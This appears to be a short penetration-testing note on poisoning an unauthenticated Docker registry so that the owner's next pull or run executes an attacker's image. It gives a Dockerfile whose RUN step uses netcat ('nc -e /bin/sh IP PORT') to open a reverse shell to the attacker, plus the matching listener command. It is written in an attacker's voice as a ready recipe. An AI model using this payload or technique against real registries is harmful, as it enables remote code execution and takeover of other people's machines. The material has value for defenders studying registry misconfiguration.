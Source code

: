 [[Docker]]

Without proper authentication, we can upload our own image to the target's registry. That way, the next time the owner runs a `docker pull` or `docker run` command, their host will download and execute our malicious image as it will be a new version for Docker.

The screenshot below is a "Dockerfile" that uses the Docker `RUN` instruction to execute "netcat" within the container to connect to our machine!

Dockerfile 

FROM debian:jessie-slim

RUN apt-get update -y
RUN apt-get install netcat -y
RUN nc -e /bin/sh IP PORT

We compile this into an image with `docker build` . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

---
nc -lvnp 8080



